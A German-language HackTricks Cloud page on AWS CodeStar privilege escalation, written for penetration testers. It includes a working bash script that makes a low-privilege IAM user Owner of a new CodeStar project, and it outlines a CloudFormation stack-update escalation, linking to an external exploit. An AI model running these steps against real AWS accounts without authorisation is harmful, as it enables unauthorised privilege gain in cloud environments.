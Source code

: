# AWS - Codestar Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Codestar

Du kannst mehr Informationen über Codestar finden in:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

Mit diesen Berechtigungen kannst du **eine Codestar IAM-Rolle missbrauchen**, um **willkürliche Aktionen** über eine **CloudFormation-Vorlage** auszuführen. Überprüfe die folgende Seite:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Diese Technik verwendet `codestar:CreateProject`, um ein Codestar-Projekt zu erstellen, und `codestar:AssociateTeamMember`, um einen IAM-Benutzer zum **Besitzer** eines neuen CodeStar-**Projekts** zu machen, was ihnen eine **neue Richtlinie mit einigen zusätzlichen Berechtigungen** gewährt.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Wenn Sie bereits ein **Mitglied des Projekts** sind, können Sie die Berechtigung **`codestar:UpdateTeamMember`** verwenden, um **Ihre Rolle** auf Eigentümer anstelle von `codestar:AssociateTeamMember` zu **aktualisieren**.

**Potenzielle Auswirkungen:** Privesc zur generierten codestar-Richtlinie. Ein Beispiel für diese Richtlinie finden Sie in:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **Ein neues Projekt erstellen:**
* Nutzen Sie die **`codestar:CreateProjectFromTemplate`**-Aktion, um die Erstellung eines neuen Projekts zu initiieren.
* Nach erfolgreicher Erstellung wird automatisch Zugriff auf **`cloudformation:UpdateStack`** gewährt.
* Dieser Zugriff zielt speziell auf einen Stack, der mit der `CodeStarWorker-<generischer Projektname>-CloudFormation` IAM-Rolle verbunden ist.
2. **Aktualisieren Sie den Ziel-Stack:**
* Mit den gewährten CloudFormation-Berechtigungen fahren Sie fort, den angegebenen Stack zu aktualisieren.
* Der Name des Stacks wird typischerweise einem von zwei Mustern entsprechen:
* `awscodestar-<generischer Projektname>-infrastructure`
* `awscodestar-<generischer Projektname>-lambda`
* Der genaue Name hängt von der gewählten Vorlage ab (siehe das Beispiel-Exploit-Skript).
3. **Zugriff und Berechtigungen:**
* Nach der Aktualisierung erhalten Sie die Fähigkeiten, die der **CloudFormation IAM-Rolle** zugeordnet sind, die mit dem Stack verbunden ist.
* Hinweis: Dies gewährt nicht automatisch vollständige Administratorrechte. Weitere falsch konfigurierte Ressourcen innerhalb der Umgebung könnten erforderlich sein, um die Berechtigungen weiter zu erhöhen.

Für weitere Informationen überprüfen Sie die ursprüngliche Forschung: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Sie finden das Exploit in [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)

**Potenzielle Auswirkungen:** Privesc zur CloudFormation IAM-Rolle.

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks unterstützen</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
